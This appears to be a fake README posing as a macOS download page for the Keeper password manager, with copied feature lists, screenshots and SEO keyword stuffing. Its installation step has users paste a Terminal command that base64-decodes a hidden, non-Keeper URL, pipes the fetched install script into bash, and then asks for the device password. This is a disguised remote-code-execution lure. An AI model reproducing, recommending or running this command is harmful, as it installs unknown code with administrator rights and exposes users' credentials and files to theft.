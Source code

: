 # 🛡 Keeper for macOS – Secure Password Manager & Digital Vault  

## 📌 About Keeper  
Keeper is a robust password manager and digital vault for macOS, designed to protect your credentials, files, and personal data with zero-knowledge encryption. It helps you generate strong passwords, autofill logins, and securely share information.  

With dark web monitoring, secure file storage, and cross-device syncing, Keeper is a trusted choice for individuals and businesses who demand top-tier security.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rZWVwZXIvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![Keeper Screenshot 1](https://m.media-amazon.com/images/I/41rX4bietgL.png)  
![Keeper Screenshot 2](https://i.pcmag.com/imagery/reviews/03HXY9Qs0SI7GIXj2DNtrNU-57.fit_lim.size_800x.jpg)  

---

## 🚀 Key Features  
- 🔐 **Password Vault** – Store and manage all your credentials securely.  
- 🛠 **Password Generator** – Create strong, unique passwords instantly.  
- ⚡ **Autofill & Auto-login** – Save time with quick logins.  
- 🌐 **Cross-Platform Sync** – Access your vault on all devices.  
- 🕵 **Breach Monitoring** – Alerts you if your accounts are compromised.  
- 📁 **Secure File Storage** – Encrypt and store sensitive documents.  
- 📤 **Secure Sharing** – Safely share data with trusted contacts.  
- 🔒 **Zero-Knowledge Security** – Only you can access your information.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 200 MB for installation  
- **Others:** Internet connection for sync and updates  

---

## 🔍 SEO Keywords  
keeper mac · keeper macos · mac password manager · keeper vault · keeper autofill · keeper file storage · keeper security · password manager mac · keeper download mac · keeper breach monitoring

